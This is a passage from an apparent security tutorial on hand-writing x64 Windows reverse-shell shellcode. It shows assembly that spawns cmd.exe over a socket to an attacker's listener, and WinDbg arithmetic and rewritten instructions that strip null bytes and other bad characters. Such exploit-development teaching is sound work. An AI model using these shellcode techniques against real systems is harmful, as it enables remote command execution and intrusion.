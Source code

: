 ```
" mov rdx, rcx; "               # Set lpCommandLine to point to the "cmd.exe" string
" mov rcx, rax; "               # Set lpApplicationName to NULL
" call r12; "                   # Call CreateProcessA with address stored in R12
```

Once the shellcode is executed, the outcome can be observed in the previously established listener, which now receives a socket connection and initiates a `cmd.exe` session. This confirms that the shellcode has successfully executed its intended functionality, establishing communication between the compromised system and the attacker's control server.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-05_18-41.png" alt="">

### Dealing with badchars

As in the initial phase of the post, the process will continue with the removal of any potentially problematic bad characters to ensure the shellcode becomes Position Independent Code (PIC). This step is crucial for enhancing the shellcode's compatibility and reliability across different execution environments.

The first instruction that generates badchars is the following:

```
“ sub rsp, 88;”
```

The same procedure is performed as in the first part of the post.

The method involves choosing a larger starting value and shifting it left by 20 bits (`0x14`) to achieve the needed offset, effectively avoiding unwanted characters.

The calculation in WinDbg looks like this:

```
0:003> ? 0x88 << 0x14
Evaluate expression: 142606336 = 00000000`08800000
```

Next, a bitwise `OR` with `0xFFFFF` adjusts the lower bits, changing the byte pattern but keeping the shifted value intact:

```
0:003> ? (00000000`08800000|0xFFFFF)
Evaluate expression: 143654911 = 00000000`088fffff
```

To confirm, the value is shifted right by the same 20 bits (`0x14`), checking that the important bits revert to their original position:

```
0:003> ? 0x00000000`088fffff >> 0x14
Evaluate expression: 136 = 00000000`00000088
```

This approach is then applied in the code as follows:

```
# " sub rsp, 88; "                    # Allocate additional space (88 bytes) on the stack for local variables or to maintain alignment (Null byte)
# Null byte fix
" xor rax, rax; "                   # Zero out rax to start fresh
" add rax, 0x88FFFFF; "             # Load rax with a large number
" shr rax, 0x14; "                  # Right-shift rax by 20 bits to get 0x88
" sub rsp, rax; "                   # Subtract 0x88 from rsp
```
